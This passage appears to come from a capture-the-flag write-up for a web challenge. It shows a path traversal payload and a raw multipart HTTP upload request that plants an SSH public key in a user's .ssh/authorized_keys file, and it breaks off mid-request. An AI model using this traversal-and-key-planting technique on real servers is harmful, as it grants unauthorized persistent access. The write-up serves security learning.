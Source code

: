 ```http
path=/../../../../home/user/&name=.ssh
```

![](/assets/obsidian/3343ff53808bf56b5f507cafad584d69.png){:target='_blank'}

Upload random files to capture a valid upload request

![](/assets/obsidian/e14d9192f2c78aca518540d52b53518f.png){:target='_blank'}

Now upload our `ssh` public key to `/home/user/authorized_keys`

```http
POST /api/upload HTTP/1.1
Host: challenge.ctf.games:31377
Content-Length: 881
X-Token: 1d49c64e3b24ba313d08fd899f8c5424
X-Cid: bPlNFG
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryaA4JfpvW4fbJslmo
Accept: */*
Origin: http://challenge.ctf.games:31377
Referer: http://challenge.ctf.games:31377/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: USERNAME=admin; CID=bPlNFG; TOKEN=1d49c64e3b24ba313d08fd899f8c5424
dnt: 1
sec-gpc: 1
Connection: close

------WebKitFormBoundaryaA4JfpvW4fbJslmo
Content-Disposition: form-data; name="path"

/../../../../../../home/user/.ssh
------WebKitFormBoundaryaA4JfpvW4fbJslmo
Content-Disposition: form-data; name="file"; filename="authorized_keys"
```